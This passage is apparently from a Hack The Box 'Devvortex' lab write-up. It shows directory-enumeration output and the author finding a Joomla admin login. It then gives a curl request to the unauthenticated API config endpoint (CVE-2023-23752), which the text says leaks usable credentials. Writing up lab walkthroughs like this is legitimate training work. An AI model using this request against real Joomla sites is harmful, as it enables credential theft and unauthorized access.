 ```bash
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/home                 (Status: 200) [Size: 23221]
/index.php            (Status: 200) [Size: 23221]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/configuration.php    (Status: 200) [Size: 0]
/cli                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cli/]
Progress: 40232 / 40234 (100.00%)
===============================================================
Finished
===============================================================
```

I navigated to all of these different directories and only the __/administrator__ and __/api__ endpoints returned data. The __/administrator__ endpoint redirects you to http://dev.devvortex.htb/administrator/index.php. This page appears to be for the Joomla which is a CMS tool used to build websites. This specific page is for the admin login for the site. I googled Pre-Auth RCE vulnerabilities for Joomla and found an article from 2023 concerning a vulnerable api endpoint (https://www.vicarius.io/blog/cve-2023-23752-joomla-unauthorized-access-vulnerability). Running a curl command on the mentioned URL path actually gets you credentials for a user that you can login as. There are a few exploit scripts for CVE-2023-23752 but they are not even needed to be able to get the credentials.

```bash
h0ax@h0ax-vm:~/HTB/boxes/easy/devvortex$ curl -i -k http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Wed, 28 Feb 2024 00:55:09 GMT
Content-Type: application/vnd.api+json; charset=utf-8
Transfer-Encoding: chunked
Connection: keep-alive
x-frame-options: SAMEORIGIN
referrer-policy: strict-origin-when-cross-origin
cross-origin-opener-policy: same-origin
X-Powered-By: JoomlaAPI/1.0
Expires: Wed, 17 Aug 2005 00:00:00 GMT
Last-Modified: Wed, 28 Feb 2024 00:55:09 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache

```
